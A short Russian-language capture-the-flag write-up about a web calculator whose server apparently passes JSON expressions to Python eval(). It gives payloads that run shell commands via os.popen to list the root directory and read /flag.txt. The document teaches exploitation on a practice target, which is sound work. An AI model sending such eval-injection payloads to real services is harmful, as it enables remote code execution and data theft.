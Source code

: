 
## Сломай калькулятор

В руки попал самый обычный на вид калькулятор, запущенный на веб-сервере. Однако, ходят слухи, что в нём есть скрытая уязвимость. Твоя задача — разобраться, как воспользоваться этим уязвимым калькулятором и найти флаг.

  

## Решение
Мы заходим на сайт с калькулятором и исследуем его поведение. При выполнении операций калькулятор отправляет запрос на сервер в формате JSON, например:

```json
{ "expression": "1234+1234" }
```
На сервере, скорее всего, используется опасная функция `eval()` для выполнения выражений, что открывает возможность для выполнения произвольного кода. Это означает, что вместо арифметических выражений можно подставить команды на Python и выполнить их на сервере.

#### Шаги атаки

1.  **Отправка произвольного кода**:  
    Мы можем попытаться выполнить системную команду для просмотра содержимого файловой системы. Для этого изменим запрос:
    
 ```json
    { "expression": "os.popen('ls /').read()" } 
```
    
  Сервер выполнит команду `ls /`, и в ответе мы увидим список файлов в корневой директории, включая `flag.txt`.
    
2.  **Чтение содержимого файла**:  
    Теперь, когда мы знаем, что файл `flag.txt` существует, можно попытаться его прочитать. Для этого отправим следующий запрос:
    
``` json
    { "expression": "os.popen('cat /flag.txt').read()" }
   ```
   Так сервер вернёт содержимое файла с флагом.